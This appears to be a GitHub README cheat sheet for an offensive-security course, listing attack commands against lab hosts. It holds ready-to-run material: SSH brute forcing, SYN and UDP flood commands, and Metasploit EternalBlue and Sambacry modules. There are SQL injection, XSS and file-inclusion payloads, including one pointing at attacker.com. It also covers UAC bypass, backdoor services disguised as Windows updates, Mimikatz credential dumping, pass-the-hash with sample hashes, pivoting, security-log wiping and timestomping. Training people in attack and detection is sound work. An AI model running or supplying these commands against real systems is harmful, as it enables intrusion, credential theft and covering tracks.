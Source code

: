 # List command - Offensive & Detection Course
List command that used in Offensive &amp; Detection Course

# Service Exploitation
## scan network & VA
nmap -P0 <IP>  
openvas  
nessus  
  
## bruteforcing
hydra-wizard  
hydra -l root -P /usr/share/wordlists/rockyou.txt -u  -s 22  <IP> ssh  
  
## DoS
TCP(SYN Flood): hping3 -S -L -w --flood -p 80 <TARGET>  
UDP(Volume Based Attack) : hping3 --UDP --flood -p 80 <TARGET>  
  
## Sambacry
(metasploit) exploit/linux/samba/is_known_pipename
(msf) set RHOST 192.168.210.104
(msf) exploit

## Eternalblue
(metasploit) exploit/windows/smb/ms17_010_eternalblue
(msf) set RHOST 192.168.210.102
(msf) exploit

# Web Application Attack
## SQL Injection
') union select 1,email,password,4,5,6,7 from users;--
## XSS
<<script>alert("XSS")</script>script>alert("XSS")<</script>/script>
## Local File Inclusion
../../../../../../../../../../etc/passwd
## LFI&RFI&SSRF
render.php?include=http://attacker.com

# Lateral Movement
## normal reconnaissance
tasklist
systeminfo
whoami
whoami /priv
## Bypass UAC & Privilege Escalation
use exploit/windows/local/bypassuac
use exploit/windows/local/bypassuac_eventvwr
set SESSION <id>
exploit
## net command
net localgroup Users
net localgroup Administrators
net user sservice p@ssw0rd /add
net localgroup administrators sservice /add
## Install new service
sc create microsoft_update binpath= "cmd /K start c:\Windows\Temp\backdoor.exe" start= auto error= ignore /c C:\Windows\Temp\backdoor.exe
sc create Microsoft_Update binpath= "cmd /K start C:\Users\john.SECPLAYGROUND\Downloads\update.exe" start= "auto" DisplayName= "Windows Automatic updates"
## Enable Remote Desktop
reg add "hklm\system\currentcontrolset\control\terminal server" /f /v AllowTSConnections /t REG_DWORD /d 1
reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
netsh firewall set service remoteadmin enable
netsh firewall set service remotedesktop enable
net start termservice
sc config termservice start= auto
## Mimikatz
wget "https://github.com/gentilkiwi/mimikatz/releases/download/2.1.1-20171220/mimikatz_trunk.zip"
unzip mimikatz_trunk.zip
(msf) upload /opt/x64/mimikatz.exe .
(msf) upload /opt/x64/mimidrv.sys .
(msf) upload /opt/x64/mimilib.dll .
(msf) session -i <id>
mimikatz.exe
(mimikatz) privilege::debug
(mimikatz) sekurlsa::logonPasswords full

## Pass-the-hash
git clone https://github.com/byt3bl33d3r/pth-toolkit
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
pth-winexe -U hash //IP cmd
./pth-winexe -U john%'921988ba001dc8e14a3b108f3fa6cb6d:e19ccf75ee54e06b06a5907af13cef42' //192.168.210.102 cmd.exe
sc query winexesvc
sc start winexesvc
./pth-winexe -U john%'921988ba001dc8e14a3b108f3fa6cb6d:e19ccf75ee54e06b06a5907af13cef42' --system //192.168.210.102 cmd.exe
xfreerdp /u:user /d:domain /pth:hash /v:IPAddress

## WMIC
wmic useraccount list /format:list
wmic group list brief
wmic path win32_process call create "calc.exe"
wmic /node:computername /user:domainname\username path win32_process call create "**empire launcher string here**"
wmic /node:192.168.255.10 /user:"secplayground\john" path win32_process call create "calc.exe"
wmiexec.py -debug john:P@ssw0rd@192.168.210.102

## Pivoting network
(meterpreter) run autoroute -s 192.168.255.0/24
(meterpreter) run post/windows/gather/arp_scanner rhosts=192.168.255.0/24
(msf) use auxiliary/server/socks4a
(msf) set SRVHOST 0.0.0.0
(msf) set SRVPORT 9999
(msf) exploit
Edit /etc/proxychains.conf
proxychains nmap -sT -sV -Pn -n -p22,80,135,139,445 --script=smb-vuln-ms08-067.nse 192.168.255.10
proxychains wmiexec.py -debug john:P@ssw0rd@192.168.255.10

## Delete all system log
wevtutil cl security

## Winrm
PS> Enable-PSRemoting -Force
winrm quickconfig

## schtask - create new schedule task
schtasks /create /tn foobar /tr c:\windows\temp\foobar.exe /sc once /st 00:00 /S host /RU System
schtasks /run /tn foobar /S host
delete schedule task
schtasks /F /delete /tn foobar /S host

## Timestomp
(meterpreter) timestomp mimikatz.exe -v

Resource::
- https://www.botconf.eu/wp-content/uploads/2017/12/2017_tomonaga-muda-Hunting-Attacker-Activities.pdf
- https://www.slideshare.net/votadlos/hunting-lateral-movement-in-windows-infrastructure
- https://bitvijays.github.io/LFF-IPS-P3-Exploitation.html#net-user-domain
